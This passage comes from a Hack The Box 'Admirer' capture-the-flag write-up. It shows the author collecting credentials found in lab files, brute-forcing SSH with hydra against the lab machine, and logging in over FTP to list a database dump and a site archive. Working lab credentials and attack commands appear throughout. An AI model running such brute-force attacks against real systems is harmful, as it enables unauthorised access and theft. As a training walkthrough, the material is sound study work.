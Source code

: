 The file `contacts.txt` contained some more potential usernames and a potentially useful email address format. I also noticed that `waldo` seemed to be a fan of The Big Bang Theory tv show, which could also be useful information. 

```text
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

`credentials.txt` contained credentials for a few services, so I added them to my `users` and `passwords` files.  

## Initial Foothold

Next I used `hydra` to attempt a brute-force attack against SSH to see if any of the credentials would allow me to log in.

```text
zweilos@kali:~/htb/admirer$ hydra -L users -P passwords 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 15:40:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:10/p:3), ~2 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 15:40:38
```

The FTP credentials seemed to also work for SSH! However, the connection was closed immediately upon logging in.  After trying various ways to bypass this and failing, I moved on to try the credentials for FTP instead.

```text
zweilos@kali:~/htb/admirer$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:zweilos): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```
